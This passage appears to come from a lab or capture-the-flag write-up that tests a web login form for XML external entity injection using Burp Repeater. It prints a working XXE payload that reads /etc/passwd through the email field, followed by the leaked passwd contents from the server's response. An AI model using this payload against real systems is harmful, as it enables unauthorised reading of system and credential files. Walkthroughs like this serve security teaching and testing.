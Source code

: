 In Repetar Tab send the request

![](/assets/images/Pasted_image_20250217123522.png)

As that in the response is shown the email...

**Let´s test XXE vulnerability:**

In Request tab:

```xml
<SNIP>
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE details [
		<!ENTITY myxxe SYSTEM "file:///etc/passwd">
]>
<details><email>&myxxe;</email><password>user2025</password></details>
<SNIP>
```

In Response tab:

```xml
<p align='center'> <font color=white size='5pt'> root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
```